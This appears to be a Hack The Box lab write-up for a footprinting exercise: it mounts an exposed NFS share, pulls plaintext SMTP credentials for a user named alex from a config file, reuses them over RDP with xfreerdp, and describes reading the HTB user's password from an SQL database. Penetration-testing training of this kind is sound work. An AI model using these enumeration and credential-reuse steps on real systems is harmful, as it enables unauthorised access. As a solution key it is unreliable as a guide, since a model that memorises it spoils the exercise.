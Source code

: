 ### Context

```
This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.

Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.
```

### Question 
Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.

### Solution
We know user HTB exists.

```shell
Mount NFS Share:
> showmount -e 10.129.202.41
> sudo mount -t nfs 10.129.158.204:/TechSupport ./target-nfs/ -o nolock

> sudo su
> cd target-nfs
> ls -la *
 smtp {
     host=smtp.web.dev.inlanefreight.htb
     #port=25
     ssl=true
     user="alex"
     password="lol123!mD"
     from="alex.g@web.dev.inlanefreight.htb"
 }
 
 > xfreerdp /v:10.129.2.59 /u:alex /p:'lol123!mD'
 Click on SQL app  on Desktop as Administrator and enter the password we can find in users\alex\devshare\important
then find the db and right click select 1000 rows then find HTB password. 
```